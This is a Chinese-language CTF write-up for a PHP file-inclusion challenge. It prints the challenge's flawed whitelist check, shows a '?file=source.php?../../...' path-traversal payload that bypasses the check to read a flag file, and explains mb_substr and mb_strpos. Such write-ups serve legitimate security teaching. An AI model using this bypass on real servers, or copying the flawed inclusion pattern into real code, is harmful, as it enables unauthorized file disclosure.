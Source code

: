 #PHP #代码审计 #文件包含

HTML 注释里提示有 source.php
查看 source.php

```php
<?php
highlight_file(__FILE__);
class emmm
{
    public static function checkFile(&$page)
    {
        $whitelist = ["source" => "source.php", "hint" => "hint.php"];
        if (!isset($page) || !is_string($page)) {
            echo "you can't see it";
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}

if (
    !empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}
```

我们期望在 checkFile 返回 true

1. file=source.php 或 file=hint,php
2. 先给 file 后面加一个 ？ ，file 中第一个问号之前的内容满足 1

```url
?file=hint.php
```

回显 flag not here, and flag in ffffllllaaaagggg
尝试得出 payload：

```url
?file=source.php?../../../../../ffffllllaaaagggg
```

```php
mb_substr(
    string $string,
    int $start,
    ?int $length = null,
    ?string $encoding = null
): string
 获取部分字符串
```

- string : 从该  string  中提取子字符串。
- start : 如果  `start`  不是负数，返回的字符串会从  `string`  第  `start`  的位置开始，从 0 开始计数。举个例子，字符串 '`abcdef`'，位置  `0`  的字符是 '`a`'，位置  `2`  的字符是 '`c`'，以此类推。如果  `start`  是负数，返回的字符串是从  `string`  末尾处第  `start`  个字符开始的。
- length : `string`  中要使用的最大字符数。如果省略了此参数或者传入了  `NULL`，则会提取到字符串的尾部。
- encoding : `encoding`  参数为字符编码。如果省略或是  **`null`**，则使用内部字符编码。

```php
mb_strpos(
    string `$haystack`,
    string `$needle`,
    int `$offset` = 0,
    ?string `$encoding` = **`null`**
): int|false
查找字符串在另一个字符串中首次出现的位置
```

- haystack : 要被检查的  string。
- needle : 在  `haystack`  中查找这个字符串。 和  [strpos()](https://www.php.net/manual/zh/function.strpos.php)  不同的是，数字的值不会被当做字符的顺序值。
- offset : 搜索位置的偏移。如果没有提供该参数，将会使用 0。负数的 offset 会从字符串尾部开始统计。
- encoding : `encoding`  参数为字符编码。如果省略或是  **`null`**，则使用内部字符编码。
